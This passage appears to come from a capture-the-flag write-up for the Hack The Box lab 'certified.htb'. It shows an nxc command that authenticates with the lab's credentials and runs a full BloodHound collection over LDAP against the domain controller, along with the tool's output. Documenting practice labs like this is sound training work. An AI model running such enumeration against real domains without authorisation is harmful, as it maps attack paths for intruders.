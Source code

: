 The credentials were successfully authenticated against the SMB service, confirming low-privilege access to the domain.

### LDAP Enumeration with BloodHound
---

To map the domain structure and discover potential attack paths, LDAP enumeration was conducted using `nxc` with BloodHound collection enabled:

```
nxc ldap dc01.certified.htb -u judith.mader -p judith09 --bloodhound --collection All --dns-tcp --dns-server 10.10.11.41
```

Output:

```
LDAP        10.10.11.41     389    DC01             [+] certified.htb\judith.mader:judith09
LDAP        10.10.11.41     389    DC01             Resolved collection methods: objectprops, session, localadmin, dcom, trusts, rdp, container, psremote, acl, group
LDAP        10.10.11.41     389    DC01             Done in 00M 33S
LDAP        10.10.11.41     389    DC01             Compressing output into /home/kali/.nxc/logs/DC01_10.10.11.41_2024-11-22_054454_bloodhound.zip
```

The output was successfully collected and compressed into a ZIP file, ready for BloodHound analysis.

#### BloodHound Analysis
---
